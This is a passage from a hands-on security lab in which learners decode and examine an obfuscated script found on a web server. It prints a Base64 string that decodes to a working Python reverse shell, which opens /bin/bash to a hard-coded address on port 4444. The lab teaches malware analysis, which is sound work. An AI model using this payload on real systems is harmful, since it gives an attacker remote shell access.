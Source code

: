 22.  Close all open windows.

## Analyze second suspicious code sample

The second sample was retrieved from a web server's common gateway interface (CGI) folder and marked as executable.

1.  Open **Windows PowerShell ISE** again (you do not have to run it as administrator this time). If the .ps1 script is opened again, just close it.
    
2.  Select **File > Open**. If necessary, browse to the **DVD Drive**. From the File type box, select **All Files**. Select **get.py** and select **Open**.
    
3.  Examine the single long line of code.
    
4.  Which scripting language is the code written in?
    
    PowerShell
    
    Windows cmd
    
    Bash
    
    Python
    
    FeedbackThe script is executed in a Python interpreter.
    #doThis
5.  The script is obfuscated by Base64 encoding. You can use PowerShell to decode this back to recognizable script syntax. Either replace the existing line of code in the PowerShell ISE with the following or edit the code so that it appears as follows:
    
    PowerShell
    
    `[Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('aW1wb3J0IHNvY2tldCAgLCAgICAgICAgc3VicHJvY2VzcyAgLCAgICAgICAgb3M7ICAgICAgICBob3N0PSIxOTIuMTY4LjIuMTkyIjsgICAgICAgIHBvcnQ9NDQ0NDsgICAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgLCAgICAgICAgc29ja2V0LlNPQ0tfU1RSRUFNKTsgICAgICAgIHMuY29ubmVjdCgoaG9zdCAgLCAgICAgICAgcG9ydCkpOyAgICAgICAgb3MuZHVwMihzLmZpbGVubygpICAsICAgICAgICAwKTsgICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgICAgICAgMSk7ICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICwgICAgICAgIDIpOyAgICAgICAgcD1zdWJwcm9jZXNzLmNhbGwoIi9iaW4vYmFzaCIp')) > $env:USERPROFILE\desktop\get_decoded.py`
    
6.  In PowerShell ISE, select **File > Save As**. Select the **Desktop** location and select **Save**.
    
7.  Press **F5** to execute the modified script and output the decoded syntax to a new file:
    
8.  Check that the output file has been created successfully:
    
    FeedbackIf the output file is not created, check that the PowerShell ISE editor contains only the single line of modified code, starting "[Text.Encoding]" and ending "$env:USERPROFILE\desktop\get_decoded.py".
    
9.  In File Explorer, navigate to the desktop. Right-click **get_decoded.py** and select **Edit with Notepad++**.
    
10.  Tidy up the line breaks to make the code more readable. Select the sequence of spaces between the comma and the word "subprocess". Press **CTRL+H** to open the Find and Replace dialog. Select in the **Replace with** box and type \r\n. From the Search Mode box, select **Extended**. Select **Replace All**. Close the dialog.
    